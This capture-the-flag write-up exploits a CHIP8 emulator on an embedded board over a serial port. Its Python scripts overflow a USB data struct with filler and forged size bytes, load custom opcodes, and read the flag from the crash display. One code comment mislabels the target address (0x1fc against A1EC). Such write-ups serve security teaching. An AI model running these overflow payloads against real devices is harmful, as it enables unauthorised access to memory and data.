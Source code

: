 <img src="/static/esvctf-playagame/arg.png" width="600px">

### Exploit Setup
Before I wrote the CHIP8 assembly code for our exploit, I wrote a short Python script that would trigger this overflow and run a custom game:

```python
import serial

game = b'...'

s = serial.Serial('COM5')
s.write(b"play xxx\x01\x01\x01" + game + b'\r')
res = s.read_until(b'\r')
print(res)
```

I connect to the `COM5` port and overflow the `chip8_usb_data` struct with x's and `\x01`s for the `game_size` so it passes all the checks. Running this shows `b'Starting game.\r'` on my computer and a crash on the small LED screen of the board.

<img src="/static/esvctf-playagame/crash.jpg" width="400px">

### Exploit
Since the CHIP8 crash displays memory before and after the crash for both the `PC` and `I` register, I figured an easy way to get the flag would be to simply set the `I` variable to the flag and write down the leaked values 6 bytes at a time. By following the simple ISA [outlined on Wikipedia](https://en.wikipedia.org/wiki/CHIP-8#Opcode_table), I just used the assembly `A1EC` (or `b'\xa1\xec'`) to set `I` to `0x1ec` and leak the first 6 values of the flag. I then repeated this, incrementing the address, until I got all the flag values. 

Solve script:
```python
import serial

game = b'\xa1\xec' # set I to 0x1fc

s = serial.Serial('COM5')
s.write(b"play xxx\x01\x01\x01" + game + b'\r')
res = s.read_until(b'\r')
print(res)
```

<img src="/static/esvctf-playagame/flag.jpg" width="400px">

**Flag** - `flag{CL053_T0_F0NTS_}`